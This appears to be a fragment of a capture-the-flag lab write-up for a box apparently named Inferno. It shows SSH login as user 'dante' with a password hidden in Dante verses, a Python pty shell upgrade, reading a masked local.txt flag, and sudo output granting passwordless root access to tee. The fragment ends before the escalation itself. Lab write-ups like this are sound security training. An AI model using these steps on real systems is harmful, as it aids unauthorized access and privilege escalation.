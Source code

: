 
```bash
«Or se’ tu quel Virgilio e quella fonte
che spandi di parlar sì largo fiume?»,
rispuos’io lui con vergognosa fronte.

«O de li altri poeti onore e lume,
vagliami ’l lungo studio e ’l grande amore
che m’ha fatto cercar lo tuo volume.

Tu se’ lo mio maestro e ’l mio autore,
tu se’ solo colui da cu’ io tolsi
lo bello stilo che m’ha fatto onore.

Vedi la bestia per cu’ io mi volsi;
aiutami da lei, famoso saggio,
ch’ella mi fa tremar le vene e i polsi».

dante:**************
```

<h2>dante</h2>

```bash
:~# ssh dante@xx.xxx.xxx.xx
```

```bash
dante@...:~$ python3 -c 'import pty;pty.spawn("/bin/bash")'
```

```bash
dante@...:~$ export TERM=xterm
```

```bash
dante@...:~$ ls
Desktop  Documents  Downloads  local.txt  Music  Pictures  Public  Templates  Videos
```

```bash
dante@Inferno:~$ cat local.txt
********************************
```

<br>
<p>1.1. Locate and find local.txt<br>
<code>********************************</code></p>


```bash
dante@...:~$ sudo -l
Matching Defaults entries for dante on ...:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dante may run the following commands on ...:
    (root) NOPASSWD: /usr/bin/tee
```
